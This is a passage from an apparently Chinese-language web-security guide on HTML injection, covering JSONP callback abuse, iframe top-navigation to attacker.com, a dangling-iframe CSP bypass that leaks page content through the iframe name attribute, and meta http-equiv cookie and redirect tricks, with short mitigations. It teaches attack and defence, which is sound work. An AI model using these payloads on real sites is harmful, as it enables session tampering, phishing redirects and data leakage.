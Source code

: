```markup
...
}
```
### 滥用JSONP

如果你发现一个JSONP接口，你可以调用任意函数并传递任意数据：
```markup
<script src='/editor/sharing.js'>:              ← Legitimate script
function set_sharing(public) {
if (public) request.access_mode = AM_PUBLIC;
else request.access_mode = AM_PRIVATE;
...
}

<script src='/search?q=a&call=set_sharing'>:    ← Injected JSONP call
set_sharing({ ... })
```
或者你甚至可以尝试执行一些 JavaScript 代码：
```markup
<script src='/search?q=a&call=alert(1)'></script>
```
### Iframe滥用

请注意，即使跨源，**子文档可以查看和设置父文档的位置属性**。这意味着您可以通过在**iframe**中加载一些代码来使客户端访问任何其他页面，例如：
```markup
<html><head></head><body><script>top.window.location = "https://attacker.com/hacked.html"</script></body></html>
```
这可以通过类似以下方式来减轻风险：_**sandbox='allow-scripts allow-top-navigation'**_

还可以利用 iframe 来从不同页面中泄露敏感信息，**使用 iframe 的 name 属性**。这是因为你可以创建一个 iframe，通过滥用 HTML 注入，使得**敏感信息出现在 iframe 的 name 属性中**，然后从初始 iframe 中访问该 name 属性并泄露信息。
```html
<script>
function cspBypass(win) {
win[0].location = 'about:blank';
setTimeout(()=>alert(win[0].name), 500);
}
</script>

<iframe src="//subdomain1.portswigger-labs.net/bypassing-csp-with-dangling-iframes/target.php?email=%22><iframe name=%27" onload="cspBypass(this.contentWindow)"></iframe>
```
有关更多信息，请查看[https://portswigger.net/research/bypassing-csp-with-dangling-iframes](https://portswigger.net/research/bypassing-csp-with-dangling-iframes)

### \<meta 滥用

您可以使用**`meta http-equiv`**执行**多个操作**，例如设置Cookie：`<meta http-equiv="Set-Cookie" Content="SESSID=1">`或执行重定向（在此情况下为5秒）：`<meta name="language" content="5;http://attacker.svg" HTTP-EQUIV="refresh" />`

这可以通过使用与**http-equiv**相关的**CSP**（`Content-Security-Policy: default-src 'self';`或`Content-Security-Policy: http-equiv 'self';`）来**避免**。
